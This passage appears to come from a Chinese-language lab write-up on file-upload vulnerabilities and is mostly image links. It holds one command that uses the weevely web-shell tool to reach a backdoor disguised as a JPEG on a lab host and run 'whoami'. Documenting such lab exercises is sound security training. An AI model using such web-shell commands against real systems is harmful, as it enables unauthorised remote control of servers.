 ```
root@TQ:~/桌面# weevely http://172.16.3.181/upload/farmsec.jpg 123456 whoami
```

![89a3367758c7144c5f6e07d51cfe30e4.png](../../images/584bc90956db411ca1abfab3abe22e50.png)

## 1.2.4 Less5测试：

![5b5ec43c94a6ac745613ea8ec071fa1a.png](../../images/d8105fb406ce4d008288685625e4dadd.png)